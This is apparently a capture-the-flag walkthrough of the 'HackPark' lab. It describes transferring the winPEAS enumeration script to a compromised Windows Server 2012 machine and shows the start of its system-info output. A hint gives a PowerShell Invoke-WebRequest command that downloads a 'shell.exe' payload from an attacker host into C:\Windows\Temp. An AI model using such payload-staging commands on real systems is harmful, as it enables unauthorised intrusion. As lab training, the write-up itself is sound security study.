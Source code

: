 **Instructions**

Now you know how to pull files from your machine to the victims machine, we can pull winPEAS.bat to the system using the same method! ([You can find winPEAS here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat))

WinPeas is a great tool which will enumerate the system and attempt to recommend potential vulnerabilities that we can exploit. The part we are most interested in for this room is the running processes!

Tip: You can execute these files by using `.\filename.exe`

Using winPeas, what was the Original Install time? (This is date and time)

_Hint: `powershell -c "Invoke-WebRequest -Uri 'ip/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"`_

**Answer**

WinPEAS is now installed on the target, let’s execute it:

.\winpeas.bat
c:\Windows\Temp>.\winpeas.bat
            *((,.,/((((((((((((((((((((/,  */               
     ,/*,..*(((((((((((((((((((((((((((((((((,           
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*       
   ((((((((((((((((* *****,,,/########## .(* ,((((((   
   (((((((((((/* ******************/####### .(. ((((((
   ((((((..******************/@@@@@/***/######* /((((((
   ,,..**********************@@@@@@@@@@(***,#### ../(((((
   , ,**********************#@@@@@#@@@@*********##((/ /((((
   ..(((##########*********/#@@@@@@@@@/*************,,..((((
   .(((################(/******/@@@@@#****************.. /((
   .((########################(/************************..*(
   .((#############################(/********************.,(
   .((##################################(/***************..(
   .((######################################(************..(
   .((######(,.***.,(###################(..***(/*********..(
  .((######*(#####((##################((######/(********..(
   .((##################(/**********(################(**...(
   .(((####################/*******(###################.((((  
   .(((((############################################/  /((
   ..(((((#########################################(..(((((.
   ....(((((#####################################( .((((((.
   ......(((((#################################( .(((((((.
   (((((((((. ,(############################(../(((((((((.
       (((((((((/,  ,####################(/..((((((((((.
             (((((((((/,.  ,*//////*,. ./(((((((((((.
                (((((((((((((((((((((((((((/"
                       by carlospolop
ECHO is off.
Advisory: winpeas should be used for authorized penetration testing and/or educational purposes only.Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
ECHO is off.
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [*] BASIC SYSTEM INFO <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] WINDOWS OS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Check for vulnerabilities for the OS version with the applied patches
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#kernel-exploits
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   